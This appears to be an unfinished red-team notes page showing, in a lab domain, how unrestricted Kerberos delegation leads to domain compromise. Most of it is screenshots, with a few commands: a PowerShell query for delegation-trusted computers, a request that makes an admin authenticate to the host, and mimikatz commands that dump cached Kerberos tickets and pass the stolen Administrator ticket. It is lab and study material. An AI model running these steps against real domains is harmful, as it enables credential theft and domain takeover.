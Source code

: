 # Domain Compromise via Unrestricted Kerberos Delegation

{% hint style="warning" %}
WIP
{% endhint %}

![](../.gitbook/assets/screenshot-from-2018-10-29-23-01-49.png)

![](../.gitbook/assets/screenshot-from-2018-10-29-23-02-51.png)

Set IIS01 computer to unrestricted delegation:

![](../.gitbook/assets/screenshot-from-2018-10-29-22-50-27.png)

Finding computers on a domain that have unrestricted kerberos delegation property set:

```csharp
Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properties trustedfordelegation,serviceprincipalname,description
```

![](../.gitbook/assets/screenshot-from-2018-10-29-23-08-06.png)



![](../.gitbook/assets/screenshot-from-2018-10-29-23-35-01.png)



```text
Invoke-WebRequest http://iis01.offense.local -UseDefaultCredentials -UseBasicParsing
```

![](../.gitbook/assets/screenshot-from-2018-10-29-23-35-20.png)

```text
mimikatz # sekurlsa::tickets
```

![](../.gitbook/assets/screenshot-from-2018-10-29-23-40-27.png)

```text

mimikatz # kerberos::ptt C:\Users\Administrator\Desktop\mimikatz\[0;3c785]-2-0-40e10000-Administrator@krbtgt-OFFENSE.LOCAL.kirbi
```

![](../.gitbook/assets/screenshot-from-2018-10-29-23-49-58.png)

![](../.gitbook/assets/screenshot-from-2018-10-29-23-50-40.png)

![](../.gitbook/assets/screenshot-from-2018-10-29-23-51-46.png)

{% embed url="https://adsecurity.org/?p=1667" %}

{% embed url="https://blog.xpnsec.com/kerberos-attacks-part-1/" %}

